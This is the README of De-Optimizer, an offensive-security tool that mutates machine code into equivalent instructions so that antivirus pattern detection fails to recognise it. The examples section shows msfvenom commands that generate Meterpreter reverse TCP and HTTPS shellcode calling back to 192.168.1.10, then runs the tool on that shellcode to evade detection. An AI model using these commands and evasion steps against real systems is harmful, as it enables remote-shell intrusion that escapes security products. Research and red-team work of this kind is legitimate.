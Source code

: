# De-Optimizer
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  [![Crates][crates-img]][crates]
  [![License: MIT][license-img]][license]
</div>

[crates]: https://crates.io/crates/deoptimizer
[crates-img]: https://img.shields.io/crates/v/deoptimizer
[release]: https://github.com/EgeBalci/deoptimizer/releases
[release-img]: https://img.shields.io/github/v/release/EgeBalci/deoptimizer
[downloads]: https://github.com/EgeBalci/deoptimizer/releases
[downloads-img]: https://img.shields.io/github/downloads/EgeBalci/deoptimizer/total?logo=github
[issues]: https://github.com/EgeBalci/deoptimizer/issues
[issues-img]: https://img.shields.io/github/issues/EgeBalci/deoptimizer?color=red
[license]: https://raw.githubusercontent.com/EgeBalci/deoptimizer/master/LICENSE
[license-img]: https://img.shields.io/github/license/EgeBalci/deoptimizer.svg
[google-cloud-shell]: https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md
[workflow-img]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml
[moneta-ref]: https://github.com/forrest-orr/moneta
[pe-sieve-ref]: https://github.com/hasherezade/pe-sieve
[insomnihack]: https://www.youtube.com/watch?v=Issvbst_89I


This tool is a machine code de-optimizer. By transforming/mutating the machine code instructions to their functional equivalents it makes possible to bypass pattern-based detection mechanisms used by security products.

## Why?
Bypassing security products is a very important part of many offensive security engagements. The majority of the current AV evasion techniques used in various different evasion tools, such as packers, shellcode encoders, and obfuscators, are dependent on the use of self-modifying code running on RWE memory regions. Considering the current state of security products, such evasion attempts are easily detected by memory analysis tools such as [Moneta](https://github.com/forrest-orr/moneta) and [Pe-sieve](https://github.com/hasherezade/pe-sieve). This project introduces a new approach to code obfuscation with the use of machine code de-optimization. It uses certain mathematical approaches, such as arithmetic partitioning, logical inverse, polynomial transformation, and logical partitioning, for transforming/mutating the instructions of the target binary without creating any recognizable patterns. The tool is capable of transforming the instructions of a given binary up to ~95% by using the mentioned de-optimization tricks.

**Watch the presentation for more...**
- [Why So Optimized? - Insomni'hack 2024](https://youtu.be/Issvbst_89I?feature=shared)

## Installation

**Download the pre-built release binaries [HERE](https://github.com/EgeBalci/deoptimizer/releases).**

[![Open in Cloud Shell](.github/img/cloud-shell.png)](google-cloud-shell)

***From Source***
```
cargo install deoptimizer
```

***Docker Install***

[![Docker](http://dockeri.co/image/egee/deoptimizer)](https://hub.docker.com/r/egee/deoptimizer/)

```bash
docker run -it egee/deoptimizer -h
```

## Usage

> [!WARNING]  
> This project is still in the development stage! The available transform gadgets, functions, and command line parameter names may be adjusted, backward compatibility is not guaranteed.

```
Machine code deoptimizer.

Usage: deoptimizer [OPTIONS]

Options:
  -a, --arch <ARCH>                     Target architecture (x86/arm) [default: x86]
  -f, --file <FILE>                     target binary file name [default: ]
  -o, --outfile <OUTFILE>               output file name [default: ]
  -s, --source <SOURCE>                 source assembly file [default: ]
      --syntax <SYNTAX>                 assembler formatter syntax (nasm/masm/intel/gas) [default: keystone]
  -b, --bitness <BITNESS>               bitness of the binary file (16/32/64) [default: 64]
  -A, --addr <ADDR>                     start address in hexadecimal form [default: 0x0000000000000000]
      --skip-offsets <SKIP_OFFSETS>...  File offset range for skipping deoptimization (eg: 0-10 for skipping first ten bytes)
  -c, --cycle <CYCLE>                   total number of deoptimization cycles [default: 1]
  -F, --freq <FREQ>                     deoptimization frequency [default: 0.5]
      --transforms <TRANSFORMS>         allowed transform routines (ap/li/lp/om/rs) [default: ap,li,lp,om,rs]
      --allow-invalid                   allow processing of invalid instructions
  -v, --verbose                         verbose output mode
      --debug                           debug output mode
  -h, --help                            Print help
  -V, --version                         Print version
```

#### Examples

- Generate and de-optimize a 64 bit Metasploit reverse TCP shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 -f /tmp/shellcode
```
- Generate and de-optimize a 64 bit Metasploit reverse HTTP(S) shellcode

> [!WARNING]  
> Some shellcodes may cointain string values that needs to be skipped! In such cases the string offsets needs to be specified using the `--skip-offsets` parameter.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=8080 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 --skip-offsets 275-287 324-574  -f /tmp/shellcode
```

## Currently Supported Architectures

- ✅ `Supported`
- 🚧 `In progress`
- ❌ `Unsupported`

|  **Architecture** | **32** | **64** |
|:-----------------:|:------:|:------:|
|      **x86**      |   ✅   |   ✅   |
|      **ARM**      |   ❌   |   🚧   |
|     **RISCV**     |   ❌   |   🚧   |

## TO DO 
- [ ] PE file support.
- [ ] ELF file support
- [ ] Mach-O file support.
- [ ] ARM architecture support.
- [ ] RISC5 architecture support.
